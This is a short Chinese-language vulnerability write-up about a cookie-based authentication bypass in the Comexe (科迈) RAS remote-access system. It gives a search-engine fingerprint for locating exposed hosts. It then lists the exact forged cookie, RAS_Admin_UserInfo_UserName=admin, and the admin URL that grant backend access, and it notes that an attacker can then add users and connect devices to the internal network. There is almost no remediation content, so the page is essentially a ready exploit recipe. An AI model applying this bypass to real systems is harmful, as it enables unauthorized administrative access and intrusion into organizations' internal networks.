


# 科迈 RAS系统 Cookie验证越权漏洞

## 漏洞描述

科迈 RAS系统 存在Cookie验证越权，当 RAS_Admin_UserInfo_UserName 设置为 admin 时可访问后台

## 漏洞影响

<a-checkbox checked>科迈 RAS系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="科迈-RAS系统"</a-checkbox></br>

## 漏洞复现

登录页面如下





添加Cookie

```plain
RAS_Admin_UserInfo_UserName=admin
```





访问 `/Server/CmxUser.php?pgid=UserList`


获取后可以添加用户，授权登陆设备直接接入内网